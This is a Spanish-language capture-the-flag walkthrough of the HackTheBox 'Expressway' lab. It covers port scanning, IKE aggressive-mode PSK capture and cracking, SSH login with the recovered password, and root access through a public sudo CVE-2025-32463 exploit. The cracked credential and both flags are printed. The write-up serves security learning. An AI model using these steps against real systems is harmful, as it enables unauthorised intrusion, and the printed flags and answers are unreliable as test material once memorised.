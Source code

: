 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Expressway HackTheBox (Easy)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-23 06:51 EDT
Nmap scan report for 10.10.11.87
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.34 seconds
```

Veremos solamente un puerto `SSH` sin ninguna web ni nada, por lo que vamos a probar a realizar un escaneo por `UDP` a ver si hay algo oculto por ahi.

```shell
nmap -sU --min-rate 1000 --top-ports 100 <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-23 07:06 EDT
Nmap scan report for 10.10.11.87
Host is up (0.033s latency).
Not shown: 94 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
500/udp   open   isakmp
515/udp   closed printer
996/udp   closed vsinet
31337/udp closed BackOrifice
49186/udp closed unknown
49201/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.54 seconds
```

Veremos que el servicio `500` esta abierto, vamos a obtener mas informacion de dicho puerto a ver que tiene, pero de primeras ya sabemos que es un **ISAKMP (Internet Security Association and Key Management Protocol)** es usado principalmente por **VPNs IPSec**.

```shell
nmap -sU -p 500 -sV --script ike-version <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-23 07:08 EDT
Nmap scan report for 10.10.11.87
Host is up (0.040s latency).

PORT    STATE SERVICE VERSION
500/udp open  isakmp?
| ike-version: 
|   attributes: 
|     XAUTH
|_    Dead Peer Detection v1.0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.07 seconds
```

La caracteristicas que estamos viendo son las siguientes:

**XAUTH (Extended Authentication)** - Permite autenticación adicional **Dead Peer Detection v1.0** - Mantiene la conexión activa

Vamos a comprobar si acepta un `Aggressive Mode` realizando una peticion de esta forma:

```shell
ike-scan -A --id=test <IP>
```

Info:

```
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=6bef8cd3620d6de4) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 1.495 seconds (0.67 hosts/sec).  1 returned handshake; 0 returned notify
```

Vemos que si esta funcionando y estamos viendo informacion muy valiosa como la siguiente:

```
Encryption: 3DES
Hash: SHA1
Group: 2 (modp1024)
Auth: PSK (Pre-Shared Key)
ID Type: ID_USER_FQDN
ID Value: ike@expressway.htb
VIDs: XAUTH, Dead Peer Detection
```

Hemos descubierto un `dominio` llamado `expressway.htb`, vamos añadirlo a nuestro archivo `hosts` de esta forma:

```shell
nano /etc/hosts

#Dentro del nano
<IP>           expressway.htb
```

Lo guardamos y probamos a realizar otra peticion de esta forma para intentar capturar el `hash PSK`.

## Escalate user ike

```shell
ike-scan -A --id=expressway.htb --pskcrack=expressway.psk <IP>
```

Ahora si leemos el archivo...

> expressway.psk

```
b7a3ba72d4fe5c12243cb6ce31108c01531bc022904f66548432d5ae93aa9917e02925c4ca59c0b6270ead9d098185a54ee08bb46d3cd3b5656744f8d50f871a737858550d1eea3ddd1f4ca67b0e60bb1b18fea87a16fa99ad0b354656418000e555c7747adcb1b0d6fc79f74a7310f9789a5d1ea8384cc199d988127542bae6:51386faaab8dfba44b46fca5c217dd4901aae0183150bcbb4fca93697fefcda2f920acf2e6dd702b9f0ff27eb3adef85df40dc280edab7c177a318ca637320bf5f3d310b7b202c44224bcdb7c103b82217cc260b4622061e27dc6c375ec2036096cd26ca2e3923cdaa745cde1a0085974563843293ae11868c87a5327e2921dc:5ee610efba11daa3:843d925eeb2fb02c:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:7269395bf6d92dbf180d545a3de8c0663c691477:68fdeda0c36ce84889ff4dd1ebc259fe98b908bd47cd99abbbd1c291949e7050:f1e7585855cf7f8b9622fd9753b91b9b27e3d949
```

Vemos que lo hemos capturado de forma correcta, ahora vamos a probar a `crackearlo`.

```shell
psk-crack -d <WORDLIST> expressway.psk
```

Info:

```
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash f1e7585855cf7f8b9622fd9753b91b9b27e3d949
Ending psk-crack: 8045040 iterations in 7.548 seconds (1065888.40 iterations/sec)
```

Vemos que ha funcionado, tenemos una contraseña y tambien un usuario llamado `ike` del `dominio`, vamos a probar si funciona por `SSH`.

### SSH

```shell
ssh ike@<IP>
```

Metemos como contraseña `freakingrockstarontheroad`...

```
Last login: Wed Sep 17 10:26:26 BST 2025 from 10.10.14.77 on ssh
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep 23 12:31:36 2025 from 10.10.14.98
ike@expressway:~$ whoami
ike
```

Con esto veremos que ya estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
dcde31dcd467cd645bc38a6787e77e0b
```

## Escalate Privileges

Si listamos los grupos a los que pertenecemos, veremos lo siguiente:

```
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)
```

Vemos que somos del grupo `proxy`, por lo que es muy interesante, si buscamos que pertenece a dicho grupo, no veremos gran cosa.

Si vemos la version de `sudo` que hay en el sistema.

```shell
sudo -V
```

Info:

```
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

Veremos que es una version vulnerable, si buscamos informacion veremos que tiene un `CVE` asociado llamado `CVE-2025-32463`, encontraremos un `exploit` en la siguiente `URL`.

[CVE-2025-32463 PoC](https://github.com/kh4sh3i/CVE-2025-32463)

Si ejecutamos dicho `exploit` de esta forma en la maquina victima:

```shell
chmod +x exploit.sh
./exploit.sh
```

Info:

```
woot!
root@expressway:/# whoami
root
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
799ac55d38a22197ceda662333d52cf4
```
